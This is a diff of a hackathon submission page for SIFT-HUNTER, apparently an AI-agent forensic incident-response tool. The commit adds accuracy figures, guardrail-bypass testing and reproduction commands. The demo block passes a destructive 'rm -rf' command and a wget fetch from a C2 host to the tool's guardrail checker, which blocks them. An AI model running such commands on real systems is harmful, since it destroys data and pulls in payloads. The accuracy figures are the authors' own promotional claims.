

Before and after one commit to svaka2000/SIFT-HUNTER, a Markdown page: devpost-submission.md, 3 parts joined by grey strips. Shown at 90% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs(devpost): lead the submission with measured accuracy (zeus/cridex) + bypass testing
Weaves the new strongest proof points into the paste-ready submission copy: 100%
precision / 86% recall / 0 FP on the canonical samples, 20 bypass attempts refused,
244 tests, and the no-key evaluate/benchmark/detect commands for judges.

````diff
--- a/devpost-submission.md
+++ b/devpost-submission.md
@@ -57,6 +57,12 @@ On a real run against our benchmark incident it produced **6 findings, applied 7
 self-corrections, and caught 4 hallucinations** — and the report shows the Verifier
 *downgrading an over-claimed C2 attribution* to only what the evidence actually supports.
 
+And we don't ask you to take our word for it. Evaluated against the **canonical
+`zeus.vmem` and `cridex.vmem` memory samples** — the ones every DFIR analyst knows, with
+publicly documented and cited ground truth — the deterministic detection layer scores
+**100% precision / 86% recall / 0 false positives**, reproducible with no API key:
+`python -m benchmarks.evaluate`.
+
 ### How we built it
 - **Architecture = Pattern 2 + 3:** a custom **MCP server** (Pattern 2) exposes the forensic
   tools; a **LangGraph multi-agent orchestrator** (Pattern 3) drives them with a
@@ -88,14 +94,16 @@ self-corrections, and caught 4 hallucinations** — and the report shows the Ver
   honesty the system is built to enforce.
 
 ### Accomplishments that we're proud of
+- **Measured accuracy on the samples every DFIR analyst knows.** On the canonical
+  `zeus.vmem` and `cridex.vmem` images (published, cited ground truth): **100% precision,
+  86% recall, 0 false positives** — reproducible with no API key. Evaluating on the real XP
+  images even surfaced and fixed a process-lineage bug (it had assumed the post-Vista tree).
 - **The self-correction visibly works on real evidence** — it caught itself over-attributing
   a Metasploit C2 finding and corrected it down to the confirmed facts.
-- **93% measured hallucination-catch rate, 0% false positives** — reproducible by anyone in
-  one command, no key required.
-- **218 tests**, all exercising the shipped code, plus architectural security you can demo in
-  three commands.
-- **A judge can run a full sample incident with no SIFT Workstation and no API key** — a
-  deterministic detector + a committed real sample report.
+- **93% hallucination-catch / 0% false positives**, and **20 guardrail-bypass attempts all
+  refused** — both reproducible in one command, no key required.
+- **244 tests**, all exercising the shipped code; a judge can run a full sample incident
+  *and the entire accuracy evaluation* with **no SIFT Workstation and no API key**.
 
 ### What we learned
 - For autonomous IR, **honesty beats confidence.** A system that says "I'm not sure, and
@@ -135,14 +143,18 @@ git clone https://github.com/svaka2000/SIFT-HUNTER && cd SIFT-HUNTER && pip inst
 sift-hunter check "rm -rf /evidence"        # BLOCKED (destructive)
 sift-hunter check "wget http://c2/payload"  # BLOCKED (network egress)
 sift-hunter check "vol3 -f mem.dmp pslist"  # ALLOWED (read-only forensic tool)
+pytest tests/test_security_bypass.py -v     # 20 bypass attempts, all refused
 
-# 2) Reproduce the 93% hallucination-catch / 0% false-positive rate — no key needed
+# 2) MEASURED accuracy on the canonical zeus.vmem + cridex.vmem samples — no key needed
+python -m benchmarks.evaluate               # 100% precision / 86% recall / 0 FP
+
+# 3) Reproduce the 93% hallucination-catch / 0% false-positive rate — no key needed
 python -m benchmarks.hallucination_benchmark
 
-# 3) Full sample incident through the detection engine — no key, no SIFT binaries
+# 4) Full sample incident through the detection engine — no key, no SIFT binaries
 python -m benchmarks.detect_case benchmarks/cases/case001
 
-# 4) Full autonomous agent run (needs GROQ_API_KEY or ANTHROPIC_API_KEY)
+# 5) Full autonomous agent run (needs GROQ_API_KEY or ANTHROPIC_API_KEY)
 sift-hunter analyze benchmarks/cases/case001/evidence/*.csv
 #    …or just read a real run: benchmarks/cases/case001/sample_report.md
 ```
@@ -151,11 +163,11 @@ sift-hunter analyze benchmarks/cases/case001/evidence/*.csv
 | Criterion | How SIFT-HUNTER addresses it |
 |-----------|------------------------------|
 | Autonomous execution | 6-agent LangGraph pipeline runs end-to-end from one command; the Verifier self-corrects with zero human input |
-| IR accuracy | Confidence labels (CONFIRMED = 2+ sources); a ground-truth sample incident + a real committed report |
+| IR accuracy | **Measured 100% precision / 86% recall / 0 FP on the canonical zeus.vmem + cridex.vmem samples** (docs/EVALUATION.md, reproducible no-key); confidence labels separate CONFIRMED from inferred |
 | **Hallucination management** | Deterministic IOC detector + LLM verifier + correction loop — **measured 93% catch / 0% FP, reproducible** |
-| Architectural guardrails | ALLOWED/BLOCKED allowlist + path validation + `shell=False`, enforced in Python, never by prompt |
+| Architectural guardrails | ALLOWED/BLOCKED allowlist + path validation + `shell=False`, enforced in Python, never by prompt — **tested for bypass (20 attempts refused)** |
 | Audit trail | JSONL record of every tool call, finding, correction, transition — `sift-hunter audit <id>` traces any claim to raw evidence |
-| Documentation | One-command install, ARCHITECTURE / SECURITY / ACCURACY / ADDING_TOOLS docs, 218 tests, new tool in < 1 hour |
+| Documentation | One-command install, ARCHITECTURE / SECURITY / EVALUATION / ADDING_TOOLS docs, 244 tests, new tool in < 1 hour |
 
 ---
 
````
